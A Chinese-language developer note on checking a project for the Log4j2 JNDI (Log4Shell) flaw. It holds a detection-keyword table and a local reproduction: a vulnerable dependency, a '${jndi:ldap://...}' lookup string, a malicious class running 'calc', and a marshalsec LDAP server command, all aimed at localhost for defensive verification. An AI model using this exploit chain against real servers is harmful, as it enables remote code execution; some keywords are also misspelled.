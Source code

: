 ```yaml
---
order: 110
category:
  - Log
---
```


# 项目log4j漏洞问题排查
## 1. 自检（项目是否存在log4g漏洞）

**结论：不存在该漏洞**

1. 项目并没有引用到log4g-core
2. 也没有打印会引起该漏洞的关键字或规则

![image-20211222121156841](https://abelsun-1256449468.cos.ap-beijing.myqcloud.com/image/image-20211222121156841.png)

### 1.1 针对漏洞的自定义规则

| 规则         | 使用情况 |
| ------------ | -------- |
| tcp payload  | 未使用   |
| http msgbody | 未使用   |

### 1.2 日志排查关键字

| 关键字                                                       | 使用情况 |
| ------------------------------------------------------------ | -------- |
| Javax. naming Communicationexception                         | 未使用   |
| Javax. naming. Namingexception: problem generating object using object factory | 未使用   |
| Error looking up JNDI resource"关键字进行排查                | 未使用   |
| ${jndi: ladp或 rmi                                           | 未使用   |
| getobjectfactoryfromreferenc Idapurl Context hdil ookup等与jnd调用相关的堆栈信息。 | 未使用   |



## 2. log4j漏洞概述

该漏洞是由于Apache Log4j2某些功能存在递归解析功能，未经身份验证的攻击者通过发送特定恶意数据包，可在目标服务器上执行任意代码。

## 3. 影响范围

Apache Log4j 2.x <= 2.15.0-rc1

## 4. 复现demo

### 4.1 新建maven项目

创建一个新的maven项目，并导入Log4j的依赖包

```xml
 <!--   bug版本log4j-core-2.14.1    -->
<dependency>
            	<groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>

        <!--   已修复版本log4j-core-2.17.0    -->
<!--        <dependency>-->
<!--            <groupId>org.apache.logging.log4j</groupId>-->
<!--            <artifactId>log4j-core</artifactId>-->
<!--            <version>2.17.0</version>-->
<!--        </dependency>-->
```

### 4.2 漏洞利用

#### **4.2.1 使用POC测试**

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
class LogTest {
    public static final Logger logger = LogManager.getLogger();
    public static void main(String[] args) {
        logger.error("${jndi:ldap://localhost:8888/Exploit}");
    }
}
```

#### 4.2.2 **编译一恶意类Exploit.class**

首先新建exp.java，然后编译为class文件

```java
class Exploit {
    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
javac exp.java
```

#### 4.2.3 **使用marshalsec-0.0.3-SNAPSHOT-all.jar本地开启一个LDAP服务**

```mipsasm
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer
"http://127.0.0.1:7777/#Exploit" 8888
```

#### 4.2.3 运行poc.java，即可访问恶意类并执行写在其中的"calc"命令

![image-20211222124406317](https://abelsun-1256449468.cos.ap-beijing.myqcloud.com/image/image-20211222124406317.png)

### 4.3 验证测试

#### 4.3.1 bug版本log4j-core-2.14.1

打印的日志会调用jndi

![image-20211222124709509](https://abelsun-1256449468.cos.ap-beijing.myqcloud.com/image/image-20211222124709509.png)

![image-20211222124917358](https://abelsun-1256449468.cos.ap-beijing.myqcloud.com/image/image-20211222124917358.png)

#### 4.3.2 已修复版本log4j-core-2.17.0

已修复版本就变成单纯的打印日志了

![image-20211222124814229](https://abelsun-1256449468.cos.ap-beijing.myqcloud.com/image/image-20211222124814229.png)

## 5. 项目验证

项目在log 中的jdni，并不会执行远程调用

![image-20211222125006483](https://abelsun-1256449468.cos.ap-beijing.myqcloud.com/image/image-20211222125006483.png)

## 参考文章

[手把手复现了 Log4j2 漏洞，太可怕了。。](https://segmentfault.com/a/1190000041117219)

